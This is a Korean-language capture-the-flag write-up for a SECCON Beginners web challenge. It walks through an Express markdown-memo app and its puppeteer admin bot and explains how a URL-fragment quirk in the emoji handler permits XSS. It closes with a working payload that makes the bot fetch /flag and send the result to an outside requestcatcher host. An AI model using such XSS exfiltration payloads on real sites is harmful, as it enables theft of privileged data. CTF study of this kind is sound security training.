






# memo4b (25.08.04)
---

## 문제 환경 구성

```docker
[문제 사이트]
https://ctf.beginners.seccon.jp/challenges

[도커 빌드]
docker compose up --build

# failed to create network ~~~ 에러 발생 시.
1. ifconfig 명령어로 172.20.0 서브넷을 사용하고 있는지 확인

2. br-<네트워크 ID 앞 12자리>라는 이름의 NIC가 있을 시 

docker network ls
docker network rm <네트워크 ID 앞 12자리>
후 다시 빌드
```

---

## Description

---



### 초기 화면




## Background

---

- 정규식
- XSS
    - 에서 #의 의미
- SSRF

## 코드분석

---

### app.js 환경설정

```jsx
import express from 'express';
import sanitizeHtml from 'sanitize-html';
import { marked } from 'marked';
import parse from 'url-parse';
import fs from 'fs';
import path from 'path';
import crypto from 'crypto';

const app   = express();
const posts = new Map();
const FLAG  = fs.readFileSync('./flag.txt','utf8').trim();

const emojiMap = { // 이모지 매핑
  'smile': '😊',
  'heart': '❤️',
  'fire': '🔥',
  'thumbsup': '👍',
  'thumbsdown': '👎',
  'check': '✅',
  'x': '❌',
  'party': '🎉',
  'eyes': '👀',
  'thinking': '🤔',
  'cry': '😢',
  'laugh': '😂'
};

app.use(express.urlencoded({ extended: false })); // URL 인코딩된 데이터 파싱
app.use(express.json());

/*
코드
*/

app.listen(50000, '0.0.0.0', ()=>console.log('Server running on http://localhost:50000'));
```

### 함수: renderTemplate()

```jsx
function renderTemplate(templatePath, data) { // 템플릿 렌더링
  let template = fs.readFileSync(templatePath, 'utf8');
  
  for (const [key, value] of Object.entries(data)) { // 데이터 객체의 각 키-값 쌍을 템플릿에 삽입
    const placeholder = `{{${key.toUpperCase()}}}`; // 템플릿에서 사용할 플레이스홀더
    template = template.replace(new RegExp(placeholder, 'g'), value);
  }
  
  return template;
}
```

### 엔드포인트: /flag

```jsx
app.get('/flag', (req,res)=> {
  const clientIP = req.socket.remoteAddress; // 클라이언트 IP주소를 가져옴
  const isLocalhost = clientIP === '127.0.0.1' ||     // 로컬호스트 IP 확인
                     clientIP?.startsWith('172.20.'); // 로컬 네트워크 IP 확인
  
  if (!isLocalhost) { // 로컬호스트가 아닌 경우
    return res.status(403).json({ error: 'Access denied.' });
  }
  
  if (req.headers.cookie !== 'user=admin') { // 쿠키가 admin이 아닐 경우
    return res.status(403).json({ error: 'Admin access required.' });
  }
  
  res.type('text/plain').send(FLAG); // 플래그 반환
});
```

### 엔드포인트:/

```jsx
app.get('/', (_req, res) => { // 루트 경로에 대한 GET 요청 처리
  const html = renderTemplate('./templates/index.html', {}); // 템플릿 렌더링
  res.send(html);
});

app.post('/', (req,res)=>{
  const { title='', md='' } = req.body; // 요청 본문에서 title과 md를 추출
  
  marked.setOptions({ // 마크다운 옵션 설정
    breaks: true, 
    gfm: false
  });
  
  let html = marked.parse(md); // 마크다운을 HTML로 변환

  html = sanitizeHtml(html, { // HTML 정리
    allowedTags: ['h1', 'h2', 'h3', 'h4', 'h5', 'h6', 'p', 'a', 'ul', 'ol', 'li', 'blockquote', 'code', 'pre', 'em', 'strong', 'br'],
    allowedAttributes: {
      'a': ['href']
    }
  });

  html = processEmojis(html); // 이모지 처리

  const id = crypto.randomUUID().slice(0,8);
  posts.set(id,{ 
    title: title.replace(/[<>]/g, ''),  // 제목에서 <, > 제거
    html: html 
  });
  res.redirect(`/post/${id}`); // 새로 생성된 포스트로 리다이렉트
});
```

### 엔드포인트: /post/:id

```jsx
app.get('/post/:id', (req,res)=>{ // 포스트 ID에 대한 GET 요청 처리
  const post = posts.get(req.params.id); // 요청된 ID에 해당하는 포스트를 가져옴
  if(!post) return res.sendStatus(404);
  
  const html = renderTemplate('./templates/post.html', { 
    title: post.title,
    content: post.html
  });
  res.send(html);
});

app.use('/static', express.static(path.join(process.cwd(),'static')));
```

### 엔드포인트: /api/posts

```jsx
app.get('/api/posts', (req, res) => { // API 요청으로 모든 포스트 목록을 반환
  const postList = Array.from(posts.entries()).map(([id, post]) => ({ // 포스트 ID와 제목, URL을 포함
    id,
    title: post.title,
    url: `/post/${id}`
  }));
  res.json(postList);
});
```

### 함수: processEmojis()

- 정규식 :((?:https?:\/\/[^:]+|[^:]+)):
    - :로 시작하고 끝나는 부분을 찾음
    - https:// 또는 http://로 시작하는 URL 또는 일반 텍스트를 캡처
    - URL이 아닌 경우에는 해당 이름을 그대로 사용
    - URL인 경우에는 URL 객체를 사용하여 해시 부분을 제거하고 이미지 URL을 생성

```jsx
function processEmojis(html) { // HTML에서 이모지를 처리하는 함수
  return html.replace(/:((?:https?:\/\/[^:]+|[^:]+)):/g, (match, name) => { // 이모지 이름을 추출
    if (emojiMap[name]) { // 이모지 이름이 매핑에 있는 경우
      return emojiMap[name];  // 해당 이모지로 대체
    }
    
    if (name.match(/^https?:\/\//)) { // URL 형식의 이모지 이름인 경우 
																	    // ex) https://site.com/path/img.png#pic1
      try { // URL 형식이 제대로 갖춰졌는지 확인
        const urlObj = new URL(name); // URL 객체로 변환 
        
        const baseUrl = urlObj.origin + urlObj.pathname; // 기본 URL을 가져옴
        // ex) "https://site.com/path/img.png" = "https://site.com" + "/path/img.png" 
        
        const parsed = parse(name); // URL을 파싱하여 해시 부분을 가져옴
        // ex)  #pic1
        const fragment = parsed.hash || ''; // 해시 부분이 있다면 가져옴
        
        const imgUrl = baseUrl + fragment; // 이미지 URL 생성
        // ex) https://site.com/path/img.png#pic1
        
        return ``;  //
      } catch (e) {
        return match;
      }
    }
    
    return match;
  });
}
```

### bot.js

- 코드
    
    ```jsx
    import puppeteer from 'puppeteer';
    import http from 'http';
    import fs from 'fs';
    import path from 'path';
    import { fileURLToPath } from 'url';
    
    const __dirname = path.dirname(fileURLToPath(import.meta.url));
    const WEBAPP_URL = process.env.WEBAPP_URL || 'http://web:50000';
    const VISIT_TIMEOUT = 10000;
    
    async function visitPost(postId) {
      console.log(`[Bot] Visiting post: ${postId}`);
      
      const browser = await puppeteer.launch({
        headless: true,
        args: [
          '--no-sandbox',
          '--disable-setuid-sandbox',
          '--disable-dev-shm-usage',
          '--disable-gpu'
        ]
      });
    
      try {
        const page = await browser.newPage();
        
        await page.setCookie({ 
          name: 'user',
          value: 'admin',
          domain: 'web',
          path: '/'
        });
    
        const url = `${WEBAPP_URL}/post/${postId}`;
        await page.goto(url, { 
          waitUntil: 'domcontentloaded',
          timeout: VISIT_TIMEOUT 
        });
    
        await new Promise(resolve => setTimeout(resolve, 3000));
        
        console.log(`[Bot] Successfully visited post: ${postId}`);
        
      } catch (error) {
        console.error(`[Bot] Error visiting post ${postId}:`, error.message);
      } finally {
        await browser.close();
      }
    }
    
    const server = http.createServer(async (req, res) => {
      if (req.method === 'GET' && req.url === '/') {
        try {
          const html = fs.readFileSync(path.join(__dirname, 'index.html'), 'utf8');
          res.writeHead(200, { 'Content-Type': 'text/html; charset=utf-8' });
          res.end(html);
        } catch (error) {
          res.writeHead(500, { 'Content-Type': 'text/plain' });
          res.end('Error loading page');
        }
        return;
      }
      
      if (req.method === 'POST' && req.url === '/visit') {
        let body = '';
        req.on('data', chunk => {
          body += chunk.toString();
        });
        
        req.on('end', async () => {
          try {
            const { postId } = JSON.parse(body);
            
            if (!postId) {
              res.writeHead(400, { 'Content-Type': 'text/plain' });
              res.end('Missing postId');
              return;
            }
            
            visitPost(postId).catch(console.error);
            
            res.writeHead(200, { 'Content-Type': 'text/plain' });
            res.end('Visit scheduled');
          } catch (error) {
            res.writeHead(400, { 'Content-Type': 'text/plain' });
            res.end('Invalid request');
          }
        });
      } else {
        res.writeHead(404, { 'Content-Type': 'text/plain' });
        res.end('Not Found');
      }
    });
    
    const PORT = process.env.PORT || 50001;
    server.listen(PORT, '0.0.0.0', () => {
      console.log(`[Bot] Admin bot running on port ${PORT}`);
    });
    ```
    

## 익스플로잇

---

### 취약점 분석

- processEmoji(html) 에서 imgUrl을 이미지 태그를 이용해 리턴을 한다.
    
    → imgUrl에 스크립트를 넣으면 XSS가 가능하다!
    




### 익스플로잇 단계

### 1. XSS를 메모 내용에 입력



### 2. bot이 admin 쿠키를 가지고 /flag에 접속



### 3. /flag에서 얻은 값을 requestcatcher로 보냄



### 익스플로잇 코드

```jsx
:https://hi.com/#" onerror="fetch('/flag').then(r=>r.text()).then(t=>location.href='///hihello.requestcatcher.com/test?'+t)":
```